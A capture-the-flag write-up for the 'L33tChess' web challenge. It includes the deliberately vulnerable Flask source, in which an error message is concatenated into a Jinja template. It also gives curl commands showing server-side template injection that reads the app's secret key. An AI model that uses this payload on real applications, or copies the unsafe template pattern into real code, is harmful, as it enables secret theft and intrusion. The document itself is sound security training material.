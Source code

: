 
# L33tChess

 * Category: Web
 * Solved by the JCTF Team

## Description

> The board is set, the pieces are in place: but one careless move gives you control.
> 
> Can you find the exploit and checkmate the app?

The application sources were attached.

<details>

<summary>Click to view sources...</summary>

#### index.py

```python
from flask import Flask, session, render_template_string, request, redirect
import chess
import chess.svg
import os

app = Flask(__name__)
app.secret_key = os.getenv("FLAG", "your_flag")

def render_piece_svg(piece):
    return chess.svg.piece(piece, size=50)


def describe_move(move_uci, board):
    try:
        move = chess.Move.from_uci(move_uci)

        piece = board.piece_at(move.from_square)
        if piece:
            piece_name = piece.piece_type
            piece_names = {
                chess.PAWN: "pawn",
                chess.KNIGHT: "knight",
                chess.BISHOP: "bishop",
                chess.ROOK: "rook",
                chess.QUEEN: "queen",
                chess.KING: "king"
            }
            color = "white" if piece.color == chess.WHITE else "black"
            piece_str = piece_names.get(piece_name, "piece")
            from_square = chess.square_name(move.from_square)
            to_square = chess.square_name(move.to_square)
            msg =  f"moving the {color} {piece_str} from {from_square} to {to_square}"
        else:
            msg = "no piece on the source square."

        if move in board.legal_moves:
            board.push(move)
            session["fen"] = board.fen()
            if board.is_checkmate():
                msg = "<b>Checkmate:</b> "+msg + " #"
            elif board.is_check():
                msg = "Check: "+msg
     
            return '<h3 id="msg" style="color:green">'+msg+'</h3>'
        
        else:
            return '<h3 id="msg" style="color:red">Illegal: '+msg+'</h3>'

        
    except Exception as e:
        return '<h3 hidden id="msg" style="color:red">'+str(e)+'</h3>'


def create_template():
    return  '''
        <title>Chess</title>
        <style>
            #board {
               display: grid;
                grid-template-columns: repeat(8, 60px);
                width: 480px;
                margin: auto;
            }
            .square {
                width: 60px;
                height: 60px;
                background-color: #f0d9b5;
                border: 1px solid black;
                position: relative;
            }
            .square.dark {
                background-color: #b58863;
            }
            .piece {
                position: absolute;
                cursor: grab;
            }
            #msg {
                font: italic bold 16px Arial, sans-serif;
                text-align: center;
            }

        </style>
        <h2 style="text-align:center">Turn: {{ "White" if turn else "Black" }}</h2>''' + session.get("msg", "")  + \
        '''<button onclick="location.href='/reset'" style="display:block; margin: 20px auto;">Reset</button>
        <div id="board">
           {% for rank in range(8, 0, -1) %}
    {% set rank_index = loop.index0 %}
    {% for file in "abcdefgh" %}
        {% set file_index = loop.index0 %}
        {% set square = file + rank|string %}
        {% set is_dark = (file_index + rank_index) % 2 == 1 %}
        <div class="square {% if is_dark %}dark{% endif %}" data-square="{{ square }}">
            {% if board.get(square) %}
                <div class="piece" data-square="{{ square }}" draggable="true">
                    {{ board[square]|safe }}
                </div>
            {% endif %}
        </div>
    {% endfor %}
{% endfor %}

        </div>

        <script>
            let dragged = null;
            let from = null;

            document.querySelectorAll('.piece').forEach(piece => {
                piece.addEventListener('dragstart', e => {
                    dragged = piece;
                    from = piece.dataset.square;
                });
            });

            document.querySelectorAll('.square').forEach(square => {
                square.addEventListener('dragover', e => e.preventDefault());
                square.addEventListener('drop', e => {
                    e.preventDefault();
                    const to = square.dataset.square;
                    const uci = from + to;
                    fetch('/move', {
                        method: 'POST',
                        headers: { 'Content-Type': 'application/json' },
                        body: JSON.stringify({ move: uci })
                    }).then(() => window.location.reload());
                });
            });
        </script>
  '''
@app.route("/reset")
def reset():
    session.clear()
    return redirect("/")

@app.route("/move", methods=["POST"])
def move():
    fen = session.get("fen", None)
    if not fen:
        board = chess.Board()
        session["fen"] = board.fen()
    else:
        board = chess.Board(fen)
        
    data = request.get_json()
    move_uci = data.get("move")
    session["msg"] = describe_move(move_uci, board)
    return redirect("/")

@app.route("/")
def index():
    fen = session.get("fen", None)
    if not fen:
        board = chess.Board()
        session["fen"] = board.fen()
    else:
        board = chess.Board(fen)

    board_map = {}
    for square in chess.SQUARES:
        piece = board.piece_at(square)
        if piece:
            board_map[chess.square_name(square)] = render_piece_svg(piece)
    return render_template_string(create_template(), board=board_map, turn=board.turn)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

</details>


## Solution

This is a simple interactive chess application backed by the python
`chess` package. When we make a move, the GUI will trigger a request to the `/move` API
behind the scenes. This API reads the `move` parameter provided by the GUI (which is
supposed to be the combination of the `from` and `to` locations representing the move,
e.g. `d2d4`). It is then passed to `describe_move`, which passes it directly to 
`chess.Move.from_uci(move_uci)`.

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/reset' --cookie cookie.txt --cookie-jar cookie.txt -s
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.

┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/move' --cookie cookie.txt --cookie-jar cookie.txt -X POST -H 'Content-Type: application/json' -L --data-raw '{"move":"d2d4"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/' --cookie cookie.txt --cookie-jar cookie.txt -s | grep msg
            #msg {
        <h2 style="text-align:center">Turn: Black</h2><h3 id="msg" style="color:green">moving the white pawn from d2 to d4</h3><button onclick="location.href='/reset'" style="display:block; margin: 20px auto;">Reset</button>
```

Let's see what happens when we make an illegal move:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/move' --cookie cookie.txt --cookie-jar cookie.txt -X POST -H 'Content-Type: application/json' -L --data-raw '{"move":"test"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/' --cookie cookie.txt --cookie-jar cookie.txt -s | grep msg
            #msg {
        <h2 style="text-align:center">Turn: Black</h2><h3 hidden id="msg" style="color:red">invalid uci: 'test'</h3><button onclick="location.href='/reset'" style="display:block; margin: 20px auto;">Reset</button>
```

The text from our illegal move got embedded directly into the HTML response!

This happens since `describe_move` passes our move directly to `chess.Move.from_uci`, which expects legal move format and
throws an exception when it doesn't receive one. The exception includes the illegal string, which gets returned by the following code 
(and saved in a session variable):

```python
    try:
        move = chess.Move.from_uci(move_uci)
        # ...
    except Exception as e:
        return '<h3 hidden id="msg" style="color:red">'+str(e)+'</h3>'
```

When the next request to the page is executed, `create_template` will include the session variable directly as part of the template!
This means that we can try to execute a template injection attack, for example:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/move' --cookie cookie.txt --cookie-jar cookie.txt -X POST -H 'Content-Type: application/json' -L --data-raw '{"move":"{{7*7}}"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/' --cookie cookie.txt --cookie-jar cookie.txt -s | grep msg
            #msg {
        <h2 style="text-align:center">Turn: Black</h2><h3 hidden id="msg" style="color:red">expected uci string to be of length 4 or 5: '49'</h3><button onclick="location.href='/reset'" style="display:block; margin: 20px auto;">Reset</button>
```

Once we've confirmed that `{{7*7}}` gets rendered to `49`, we can go get the flag:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/move' --cookie cookie.txt --cookie-jar cookie.txt -X POST -H 'Content-Type: application/json' -L --data-raw '{"move":"{{config[\"SECRET_KEY\"]}}"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

┌──(user@kali3)-[/media/sf_CTFs/appsec/L33tChess]
└─$ curl 'https://l33tchess.appsecil.ctf.today/' --cookie cookie.txt --cookie-jar cookie.txt -s | grep msg                                                                                     #msg {
        <h2 style="text-align:center">Turn: Black</h2><h3 hidden id="msg" style="color:red">expected uci string to be of length 4 or 5: 'AppSec-IL{Ch3SSTI_1s_a_wInnIg_m0v3}'</h3><button onclick="location.href='/reset'" style="display:block; margin: 20px auto;">Reset</button>
```

The flag: `AppSec-IL{Ch3SSTI_1s_a_wInnIg_m0v3}`